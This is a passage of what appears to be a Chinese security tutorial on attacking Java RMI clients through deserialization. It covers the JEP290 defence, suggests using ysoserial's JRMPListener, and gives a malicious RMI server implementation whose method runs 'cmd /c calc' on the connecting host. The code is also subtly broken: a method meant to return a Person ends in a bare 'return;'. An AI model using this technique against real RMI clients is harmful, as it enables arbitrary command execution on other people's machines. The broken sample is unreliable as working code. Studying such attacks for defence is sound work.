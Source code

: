 
_在jdk1.8121及之后的版本中由于JEP290的存在，导致ysoserial攻击失效，那么如何绕过呢，_[这篇文章](https://xz.aliyun.com/t/7932)给出了几个不错的思路.


### 攻击RMI客户端


**第一种方法：**
当客户端存在godget时，利用ysoserial开启JRMPListener，让客户端去连也是可以触发的。


**第二种方法：**
理想情况下的攻击方式：


定义IHello接口


```java
package com.rmitest.inter;

import com.rmitest.impl.Person;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface IHello extends Remote {
    public Person sayHello()throws RemoteException;
}

```


实现IHello接口


```java
package com.rmitest.impl;

import com.rmitest.inter.IHello;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class HelloImpl extends UnicastRemoteObject implements IHello {

    public HelloImpl() throws RemoteException {

    }

    @Override
    public Person sayHello() {
        Runtime.getRuntime().exec("cmd /c calc");
        return;
    }
}

```
